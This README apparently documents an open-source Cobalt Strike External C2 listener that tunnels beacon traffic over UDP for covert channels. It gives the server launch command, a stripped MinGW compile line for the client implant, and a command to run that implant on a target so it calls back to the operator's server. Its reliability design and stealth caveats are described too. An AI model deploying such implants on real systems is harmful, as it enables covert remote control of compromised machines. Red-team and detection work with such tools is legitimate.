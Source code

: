 # COBALT STRIKE ROBUST UDP CHANNEL

This project provides a UDP-based communication channel for Cobalt Strike. This is meant as a base for covert channels implemented in any UDP-based protocol.

This channel guarantees in-order delivery delivery. It does this through sequence numbers and generic ACK packets. Full description is below the guide.

This channel also assumes the network uses IPv4. TCP allows for protocol-agnostic sockets, but UDP does not. Changing the socket to IPv6 currently requires editing the code.

To use the Robust UDP channel, load up Cobalt Strike and add a new External C2 listener.
This channel is configured to run on the default Teamserver port of 2222.

To start the server, run the following command:

> python3 server.py [Teamserver IP] [Python Server IP] [Port] [Pipename]

- [Teamserver IP] is the IP of your Cobalt Strike teamserver.
- [Python Server IP] is the IP of the machine you are running server.py on. (“0.0.0.0” has been found to work on Linux machines, though it is unknown if this behavior is consistent everywhere.)
- [Port] is the port that the server communicates with the client over. This is not the same port that the Python server uses to communicate with the teamserver.
- [Pipename] is the name of the pipe the client creates when it runs on the target. This could be any valid pipename.  

If you have the MinGW compiler installed, you may compile the client.c code with the following command:

> i686-w64-mingw32-gcc -s -O3 -fvisibility=hidden -o client.exe client.c -lws2_32

Change the client exe name if desired.
Move the resultant executable to your target machine, and then run it with the following command:

“./client.exe [Python Server IP] [Port] [Pipename] [Target IP] [Target Port]”. (This assumes you named your executable “client.exe”.)

- [Python Server IP], [Port], and [Pipename] must be the same as the ones passed to server.py.
- [Target IP] is the IP address of the machine the client runs on.
- [Target Port] is the port you wish to communicate through on the target.

## GUARANTEED DELIVERY DESCRIPTION

This channel uses generic ACK packets and packet sequence numbers to provide reliable data transmission over UDP.

Every packet (except for ACKs) starts with a 4-byte sequence number. In the current implementation, this number starts at 0 and increments by 1 for every successful receipt. The recipient of a packet first checks the sequence number. If it’s equal to the expected sequence number, the recipient sends a generic ACK, takes in the data, and increments the expected sequence number by 1. If the sequence number received is less than the expected sequence number, the recipient sends an ACK but doesn’t do anything else. If the sequence number received is greater than the expected sequence number, the recipient does nothing. (This is undefined behavior; the program should never reach this point.) The ACK message just consists of the word “ACK”. It does not contain an acknowledgement number.

When transmitting data, the sender sends packets one at a time. After every transmission, the sender waits until a specified timeout for an ACK packet. If no ACK is received, the sender retransmits the packet. Once the sender receives an ACK packet, they will increment their sequence number by 1 and transmit any more data if necessary.

The timeout and packet max size are defined in the code. If you change it, it is recommended that the client timeout be twice as long as the server timeout due to the server forwarding data to the teamserver and back. Currently, the timeout is 5 seconds for the server and 10 seconds for the client. The packet payload max size is currently 1024 bytes. Senders repeatedly transmit packets of that size or less until all of their data is sent. (Note: this max size does not include the sequence number, so the actual packet sent will have a payload of 1028 bytes.)

## CONSTRAINTS

- This channel expects only one client per instance of server.py. Multiple clients communicating with the same server requires multiple instances of server.py running on different ports.
- This channel does not disconnect its beacon connection. If the server goes down, the client will continue sending packet retransmissions to the dead IP address until the process is killed. This may pose stealth issues.
- The sequence numbers do not roll over, so 2^32 packets is the maximum that can be sent by either the client or the server.

## TODOS/IMPROVEMENTS

- UDP does not allow for protocol-agnostic sockets. A choice between IPv4 and IPv6 should be included as an argument passed to both programs.
- A more efficient solution than "ack every packet" should be developed. One idea I had was be to have the recipient ACK a size packet, then allocate an array to keep track of the packets received for that payload. The recipient only sends an ACK once they receive all the data, and the sender retransmits everything if they don't receive an ACK.
- Allow the user to control the timeout and packet size via commmand line arguments.
- Start the sequence number on a randomly generated value. (Both the client and the server are configured to handle receiving an arbitrary sequence number, but they don't send randomized ones as of yet.)
- Packets from the server to the client calculate the checksum incorrectly according to Wireshark. Possibly UDP Checksum Offloading.
- When capturing the entire connection, Wireshark identifies the traffic as QUIC protocol. Unknown why this is.
